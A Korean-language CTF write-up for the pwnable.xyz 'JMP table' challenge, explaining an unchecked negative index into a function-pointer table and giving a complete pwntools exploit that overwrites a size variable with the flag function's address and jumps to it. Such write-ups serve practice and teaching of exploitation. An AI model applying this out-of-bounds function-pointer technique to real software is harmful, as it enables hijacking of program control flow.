```yaml
---
title: "[pwnable.xyz]JMP table"
date: 2020-1-25
ctf: Pwnable.xyz
layout: post
published : false
---
```


메인에서는 입력받고 함수 포인터로 각각 기능들을 실행해준다. 

```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  signed int v3; // [rsp+Ch] [rbp-4h]

  setup(*&argc, argv, envp);
  while ( 1 )
  {
    print_menu();
    printf("> ");
    v3 = read_long();
    if ( v3 <= 4 )
      (*(&vtable + v3))();
    else
      puts("Invalid.");
  }
}
```

취약점은 음수 체크를 안한다. 그래서 함수포인터에서 read_long()에서 입력받은 값으로 4이하 모든 곳에 참조할 수 있다. 근데 마침 vtable뒤에 heap_buffer와 size가 존재한다. size에 원하는 주소 값을 넣어서 해당 변수를 참조하면 원하는 주소로 뛸 수 있다.

```
.data:00000000006020B0                 public size
.data:00000000006020B0 ; size_t size
.data:00000000006020B0 size            dq 1                    ; DATA XREF: do_malloc+1E↑w
.data:00000000006020B0                                         ; do_malloc+25↑r ...
.data:00000000006020B8                 public heap_buffer
.data:00000000006020B8 ; void *heap_buffer
.data:00000000006020B8 heap_buffer     dq 1                    ; DATA XREF: do_malloc+3F↑w
.data:00000000006020B8                                         ; do_malloc+50↑w ...
.data:00000000006020C0                 public vtable
.data:00000000006020C0 vtable          dq offset do_exit       ; DATA XREF: main+4E↑o
.data:00000000006020C8                 dq offset do_malloc
.data:00000000006020D0                 dq offset do_free
.data:00000000006020D8                 dq offset do_read
.data:00000000006020E0                 dq offset do_write
.data:00000000006020E0 _data           ends
```

사이즈는 `do_malloc()` 함수에서 변경 가능하다 이 영역을 `cat /flag` 해주는 함수 주소로 덮어쓴다. 그리고 vtable과 size 주소의 차이는 16이니까 -2 해주면 flag 출력해주는 함수를 실행할 수 있다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./challenge')
#p = process('./challenge')
p = remote('svc.pwnable.xyz',30007)
flag = e.symbols['_']
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)
s = lambda x : p.send(x)

def malloc(size):
	sla('>','1')
	sla(':',str(size))

def free():
	sla('>','2')

def read(data): #input
	sla('>','3')
	s(data)

def write(): # print
	sla('>','4')

def quit():
	sla('>','5')

malloc(flag)
sla('>','-2')

p.interactive()
```

